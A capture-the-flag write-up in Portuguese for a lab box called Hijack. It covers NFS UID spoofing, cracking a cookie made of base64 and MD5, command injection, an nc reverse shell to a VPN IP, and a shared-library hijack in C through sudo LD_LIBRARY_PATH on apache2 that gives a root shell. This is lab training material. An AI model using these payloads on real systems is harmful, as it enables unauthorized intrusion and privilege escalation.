










# _**Hijack CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```


Temos um serviço FTP  
Tentando login anonimo, sem sucesso  
Mas temos um website, vamos investigar  
Nos links importantes, temos uma página de administrador e também uma página de login/criação de conta  
Primeiro, criamos a conta com as credenciais abaixo:
* **username**: teste
* **password**: teste123

Segundo, tentamos credenciais de administrador com SQLi, mas sem sucesso  
Um detalhe, é que ao inserir uma senha com **admin**, temos que a senha está errada, mas ao inserir um usuário aleatório, temos que o usuário não existe, confirmando possivelmente um usuário **admin**  
Terceiro, realizamos login via nossas credenciais criadas  
Nenhuma informação relevante foi encontrada  

## _**Ganhando acesso**_
Outro detalhe importante encontrado pelo nosso scan <mark>Nmap</mark> foi um serviço **RPCBIND**  
Vamos tentar realizar uma enumeração  
> ```bash
> showmount -e [ip_address]
> ```


Podemos perceber que qualquer _host_ pode montar o diretório  
Vamos fazer isso
> ```bash
> sudo mkdir -p /mnt/nfs_mount
> sudo mount -t nfs [ip_address]:/mnt/share /mnt/nfs_mount
> ```

Após montar e tentar acessar o arquivo, temos permissão negada  
Verificações foram feitas com ```ls -la /mnt/nfs_mount```, mas temos permissão negada também  
Isso significa que o sistema montou o NFS com sucesso, mas as permissões do diretório estão bloqueando acesso local  
O diretório está montado corretamente  
Outr comando que tentamos foi ```sudo ls -ln /mnt/nfs_mount```, mas com permissão negada  
Porém, isso nos indica que o diretório está montado, mas com política de exportação bloqueando leitura mesmo para root local  
Se o diretório foi exportado para um usuário específico, podemos criar um usuário local com o mesmo UID para enganar o sistema  
Verificamos com ```sudo stat /mnt/nfs_mount 2>/dev/null``` e temos retorno de UID 1003  
Para enganarmos o sistema NFS, vamos realizar os seguintes comandos abaixo  
> ```bash
> sudo groupadd -g 1003 nfsgrp
> sudo useradd -u 1003 -g nfsgrp nfsuser
> sudo su - nfsuser
> ls -la /mnt/nfs_mount
> ```


E conseguimos ler o diretório!  
Porém, sem leitura do arquivo  
Foi necessário recriar o usuário, deletando ele primeiro, e executando este comando ```sudo useradd -m -u 1003 -g 1003 -s /bin/bash nfsuser```  
Apenas então, foi possível ler o arquivo _.txt_  
Nisto, encontramos credenciais para login via **FTP**  



Executando o comando ```ls -la``` encontramos alguns arquivos e transferimos via GET para nossa máquina  
Em uma nota do _admin_, temos:  



Parece que o site tem proteção contra ataques _brute force_  
Mas também parece que temos um outro usuário além de _admin_ e também uma _wordlist_  
Após tentar 5 senhas, a conta _admin_ foi bloqueada por 5 minutos  
Tentar todas as senhas levará muito tempo  
Pensando um pouco, é bem incomum sites em CTF aceitarem cadastramento  
Vamos investigar um pouco esta conta que criamos  
Realizando login, é possível perceber que o _cookie_ da conta está criptografado em **base64**  
Ao decodificar o cookie, descobrimos que seu formato é 'USERNAME:HASH'  
Identificamos a hash como sendo MD5 através da ferramenta <mark>hash-identifier</mark>  
Procurando na Internet, encontrei um [script em python para conseguirmos descobrir a senha](https://github.com/Paxterson32/Hijack-THM/blob/main/script.py)  
É necessário alterar algumas informações no script  



No painel _../administration.php_, temos um local para inserir comandos  
Após algumas tentativas, inserindo ```service_name_random && id```, temos o retorno de **id**  
Vamos tentar um _reverse shell_  
O que funcionou foi: ```$(test nc [vpn_ip_address] 4444 -e /bin/bash)```  



## _**Escalando privilégios**_  
Investigando os arquivos _.php_ locais, encontramos a senha de **rick** em um destes arquivos  
Uma tentativa via **SSH** é feita e sucesso, temos login!  



Listando as bibliotecas compartilhadas usadas pelo Apache2, podemos sequestrar uma delas criando um arquivo com o mesmo nome  
Criamos um pequeno programa em C para substituir uma das bibliotecas listadas e o compilamos com o nome exato  
Biblioteca escolhida: ```libcrypt.so.1```
> ```bash
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> 
> void __attribute__((constructor)) hijack() {
>         setresuid(0,0,0);
>         system("/bin/bash -p");
> }
> ```

Executamos então os seguintes comandos:
> ```bash
> gcc -shared -fPIC hijack.c -o /tmp/libcrypt.so.1
> sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
> ```



Basta ir atrás das flags agora
